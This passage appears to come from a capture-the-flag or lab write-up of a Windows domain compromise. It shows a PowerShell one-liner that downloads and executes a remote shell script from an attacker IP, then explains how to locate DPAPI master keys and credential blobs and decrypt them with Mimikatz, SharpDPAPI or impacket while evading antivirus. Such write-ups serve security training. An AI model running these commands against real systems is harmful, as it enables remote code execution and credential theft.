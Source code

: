 
4. Execute the shellcode:

    In Evil-WinRM, download and trigger the shell.
    ```powershell
    powershell "IEX(new-object System.Net.WebClient).Downloadstring('http://10.10.16.75:80/shell.ps1')"
    ```
    ![](https://cdn-images-1.medium.com/max/750/1*sxVfqB_hW7y2xwPHdIKoEw.png)
    ![](https://cdn-images-1.medium.com/max/1000/1*HCXqXe8wOctUh0bPY_mHdA.png)

    We got shell

    ![](https://cdn-images-1.medium.com/max/1000/1*XRiGQicNsCIg2smCrhAGSg.png)



### Extracting DPAPI Backup Keys

After some time searching for a lead and manually enumerating the machine (as I couldn’t run most of the known tools due to the presence of antivirus blocking and deleting them if they touched the disk), I found encrypted DPAPI-related files under the `C:\Users\C.Neri\AppData\` directory.

#### Data Protection API (DPAPI)
On Windows, credentials stored in the Windows Credentials Manager are encrypted using Microsoft’s Data Protection API (DPAPI) and saved as “blob” files within the user’s AppData folder.
Within a domain, the domain controller’s master key is used to encrypt these blobs. By extracting the private key from the domain controller, it is possible to decrypt all the blobs, thereby recovering all the secrets stored in the Windows Credentials Manager across all workstations in the domain.

#### Two things needed for this process

1. Master Key
    Get-ChildItem C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect
    ![](https://cdn-images-1.medium.com/max/1000/1*EICJrYjO5A4U54ZT-YuuXA.png)
2. The blob or the backup
    ```bash
    Get-ChildItem -Hidden C:\Users\C.Neri\AppData\Local\Microsoft\Credentials\
    Get-ChildItem -Hidden C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*rtxmsmfA_ItOb_w2U01jEQ.png)
We need the Master Key to decrypt the blob and extract the secrets stored within. To extract the Master Key, we need valid credentials for the user.

There are several ways to do this: using [Mimikatz](https://github.com/gentilkiwi/mimikatz), [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), or by downloading the files locally and using [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) from Impacket to decrypt everything. The last option is the most reliable at the moment, as it won’t interact with the disk, ensuring the antivirus doesn’t interfere with our work.

I would Mention Both ways for more knowledge

#### 1. Offline Cracking

